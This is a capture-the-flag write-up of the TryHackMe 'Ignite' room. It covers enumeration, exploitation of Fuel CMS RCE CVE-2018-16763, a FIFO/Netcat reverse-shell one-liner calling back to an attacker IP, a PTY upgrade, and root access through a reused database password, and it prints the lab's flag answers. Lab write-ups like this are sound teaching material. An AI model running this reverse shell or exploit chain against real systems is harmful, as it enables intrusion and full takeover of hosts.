










# TryHackMe: Ignite

> **Room:** Ignite  
> **Platform:** TryHackMe  
> **Focus:** Web enumeration · Fuel CMS RCE · Reverse shells · Linux post-exploitation · Credential reuse

## Attack Path

```text
Target IP
   │
   ├── /etc/hosts → ignite.thm
   │
   ├── Nmap → TCP/80 (Apache + Fuel CMS)
   │
   ├── robots.txt → /fuel/ → Login page (admin:admin)
   │
   ├── Fuel CMS RCE (CVE-2018-16763)
   │       └── Modified Python exploit → command execution as www-data
   │               ├── Read /home/www-data/flag.txt → User flag
   │               └── Run FIFO/Netcat reverse shell
   │                       └── Python PTY → more usable shell
   │
   └── LinPEAS / application-file enumeration
           └── database.php → password: mememe
                   └── su root → Root flag
```

## 1. Setting Up the Target

I started by adding the target machine's IP address to `/etc/hosts` and mapping it to `ignite.thm`. This allowed me to access the machine using its hostname instead of repeatedly typing its IP address.

```bash
sudo nano /etc/hosts
```

I added the following entry:

```text
<TARGET_IP> ignite.thm
```

Replace `<TARGET_IP>` with the IP address assigned to your TryHackMe machine.

**Command explanation:**

- `sudo` runs the editor with elevated privileges because `/etc/hosts` is a system file.
- `nano` opens the file in a terminal text editor.
- `/etc/hosts` contains local hostname-to-IP mappings. The operating system checks this file when resolving the configured hostname.

## 2. Nmap Scan

I performed a service and version detection scan to identify the exposed services.

```bash
nmap -sC -sV -oN nmap_scan.txt ignite.thm
```

### Results

| Port | State | Service | Version |
|---|---|---|---|
| 80/tcp | Open | HTTP | Apache httpd 2.4.18 (Ubuntu) |

Nmap also identified the page title as **Welcome to FUEL CMS** and found one disallowed entry in `robots.txt`: `/fuel/`.

**Command explanation:**

- `nmap` is used to discover hosts, open ports, and services.
- `-sC` runs Nmap's default set of discovery and safe-enumeration scripts.
- `-sV` probes open ports to identify the service and version running on them.
- `-oN nmap_scan.txt` saves the results in Nmap's normal, human-readable output format.
- `ignite.thm` is the target hostname.

The scan showed only one open port, so I moved to web enumeration.



## 3. Exploring the Website and robots.txt

I opened the website in my browser:

```text
http://ignite.thm
```

The homepage displayed the Fuel CMS getting-started page and identified the application as Fuel CMS version 1.4.



I then checked `robots.txt` out of curiosity:

```text
http://ignite.thm/robots.txt
```

It contained:

```text
User-agent: *
Disallow: /fuel/
```

A `Disallow` entry is a crawler instruction, not an access-control mechanism. It can still reveal paths that are worth checking manually. I opened `/fuel/` and reached the Fuel CMS login page.



## 4. Accessing the Fuel CMS Dashboard

At the login page, I tried the default credentials:

```text
Username: admin
Password: admin
```

The credentials worked and I reached the Fuel CMS dashboard.





This confirmed that the application also had weak/default administrator credentials. However, the RCE vulnerability I investigated next is documented as a pre-authentication vulnerability; the successful dashboard login was an additional finding, not a requirement for the exploit itself.

## 5. Identifying and Exploiting Fuel CMS RCE

The application exposed its Fuel CMS version. I searched online for vulnerabilities affecting this version and found **CVE-2018-16763**.

This vulnerability affects Fuel CMS 1.4.1. It allows PHP code evaluation through vulnerable request parameters, including the `filter` parameter on the `/fuel/pages/select/` endpoint. Under vulnerable conditions, this can lead to unauthenticated remote code execution.

I downloaded a public proof-of-concept from Exploit-DB and modified the script for my target. I also changed parts of the script to make command execution more comfortable: I hardcoded the target URL, added a simple command prompt, and cleaned the returned page output so the command result was easier to read.

The modified script used in this room is included in this repository as [`exploit.py`](exploit.py).

Run it with:

```bash
python3 exploit.py
```

The script uses Python's `requests` library to send an HTTP GET request to the vulnerable endpoint. It URL-encodes the command and places it inside the vulnerable `filter` parameter. The injected PHP expression calls PHP's `system()` function, which executes the supplied operating-system command on the target.

The key parts of my modification are:

- `url = "http://ignite.thm"` sets the target base URL.
- `input("cmd: ")` lets me enter commands one at a time.
- `urllib.parse.quote(cmd)` URL-encodes the command so it can be safely placed in the query string.
- `requests.get(...)` sends the crafted request to the target.
- The output-cleaning section removes the HTML error block that followed the command output, when that block was present.
- Typing `exit` ends the local exploit loop.

The exploit opened a command-execution prompt. I verified access by listing the files in the web directory.



> **Important distinction:** This is command execution through an HTTP request, not yet a fully interactive terminal. The Python script sends each command to the target and displays the response.

## 6. Retrieving the User Flag

From the command prompt provided by the exploit, I read the user flag:

```bash
cat /home/www-data/flag.txt
```

**Command explanation:**

- `cat` prints the contents of a file to standard output.
- `/home/www-data/flag.txt` is the user-flag file path.

The command returned the user flag:

```text
6470e394cbf6dab6a91682cc8585059b
```



## 7. Getting a Reverse Shell

Although the exploit's command prompt allowed me to execute commands, I wanted a shell that connected back to my own machine. I used a FIFO-based Bash reverse-shell command.

First, I started a Netcat listener on my attacker machine:

```bash
nc -lvnp 4444
```

**Command explanation:**

- `nc` starts Netcat, a utility for reading and writing data over network connections.
- `-l` tells Netcat to listen for an incoming connection.
- `-v` enables verbose output, so connection information is displayed.
- `-n` disables DNS lookups and uses numeric addresses.
- `-p 4444` selects local port `4444` for the listener.

Then, inside the command prompt from the exploit, I ran the following command. I used my attacker machine's callback IP address, `192.168.131.1`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.131.1 4444 >/tmp/f
```

### How the reverse-shell command works

The command is made of several operations connected with pipes and redirections:

| Part | Purpose |
|---|---|
| `rm /tmp/f` | Removes an old `/tmp/f` file or FIFO so it does not interfere with this attempt. |
| `mkfifo /tmp/f` | Creates a named pipe (FIFO) at `/tmp/f`. A FIFO allows processes to pass data to one another. |
| `cat /tmp/f` | Reads input from the FIFO. |
| `\| /bin/sh -i` | Sends that input to an interactive `/bin/sh` shell. `-i` requests interactive mode. |
| `2>&1` | Redirects standard error (file descriptor 2) to standard output (file descriptor 1), so errors are sent through the same channel. |
| `\| nc 192.168.131.1 4444` | Pipes the shell output into Netcat, which connects to the listener at the attacker's IP and port. |
| `>/tmp/f` | Sends data received from the network back into the FIFO, completing the input path to the shell. |

In short, the FIFO connects the shell's input and output to the Netcat connection. The target initiates the connection back to my machine, which is why it is called a reverse shell.


The listener received a connection from the target and gave me a shell as `www-data`.



## 8. Upgrading the Shell with Python PTY

The Netcat reverse shell worked, but it was not attached to a proper terminal. Some interactive programs and terminal features may not work correctly in a basic reverse shell.

I used Python's `pty` module to spawn Bash inside a pseudo-terminal:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Command explanation:**

- `python3` starts the Python 3 interpreter.
- `-c` tells Python to execute the code supplied as a command-line string instead of reading a script file.
- `import pty` loads Python's pseudo-terminal module.
- `pty.spawn("/bin/bash")` starts `/bin/bash` attached to a pseudo-terminal.

A pseudo-terminal (PTY) makes the shell behave more like a normal terminal session. It improves interactive shell usability, although a few terminal features such as full job control may still require additional terminal settings.

## 9. Post-Exploitation Enumeration and Database Credentials

After upgrading the shell, I ran LinPEAS to help enumerate the machine for interesting files and possible privilege-escalation paths.

During this investigation, I found the Fuel CMS database configuration file:

```text
/var/www/html/fuel/application/config/database.php
```

I read the configuration and found database credentials stored in plaintext. The relevant values were:

```php
'dsn'      => '',
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
```



The configuration showed the MySQL username `root` and password `mememe`. I then tested whether the same password had been reused for the Linux root account.

## 10. Privilege Escalation to Root

From the reverse shell, I ran:

```bash
su root
```

When prompted, I entered the password recovered from the database configuration:

```text
mememe
```

The password worked, and I successfully switched to the Linux `root` account.

I moved to the root directory and read the root flag:

```bash
cd /root
cat root.txt
```

**Command explanation:**

- `su root` switches the current user to `root` and prompts for the root account's password.
- `cd /root` changes the current working directory to root's home directory.
- `cat root.txt` prints the root flag file.

The root flag was:

```text
b9bbcb33e11b80be759c4e844862482d
```



## 11. What I Learned

1. **Checking `robots.txt`:** A `Disallow` entry is not a security boundary. It can reveal useful application paths, so I should inspect those paths manually during web enumeration.
2. **Recognizing vulnerable software:** Identifying the CMS and version helped me search for a known vulnerability instead of randomly testing the application.
3. **Using public exploits responsibly:** I learned how to review and adapt a public proof-of-concept for a specific authorized lab target. I also learned to understand the changes I make rather than treating an exploit as a black box.
4. **Understanding the RCE-to-shell difference:** The exploit's command prompt sent individual commands through HTTP. A reverse shell created a separate connection back to my machine and provided a more convenient way to work.
5. **Understanding FIFO reverse shells:** `mkfifo`, pipes, and redirection connect shell input/output to a network connection.
6. **Upgrading a shell with a PTY:** Python's `pty.spawn()` can attach a shell to a pseudo-terminal, making an ordinary reverse shell more interactive.
7. **Finding credentials in application configuration:** Database configuration files can expose credentials if an attacker gains access to the web application's files.
8. **Credential reuse can lead to full compromise:** The database password also worked for the Linux root account, turning access to a configuration file into complete system access.

## 12. Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port scanning and service/version detection |
| Browser | Inspecting the Fuel CMS website, `robots.txt`, and login page |
| Exploit-DB | Finding a public Fuel CMS RCE proof-of-concept |
| Python 3 | Running and modifying the exploit script; spawning a PTY |
| `requests` | Sending HTTP requests from the modified exploit |
| Netcat | Listening for the reverse-shell connection |
| LinPEAS | Linux post-exploitation enumeration |
| Linux commands (`cat`, `su`, `cd`) | Reading files and switching to root |

## Disclaimer

This write-up documents my learning process in the authorized TryHackMe Ignite lab. The techniques described here should only be used in systems and environments where you have explicit permission to perform security testing.

**Ignite completed!**
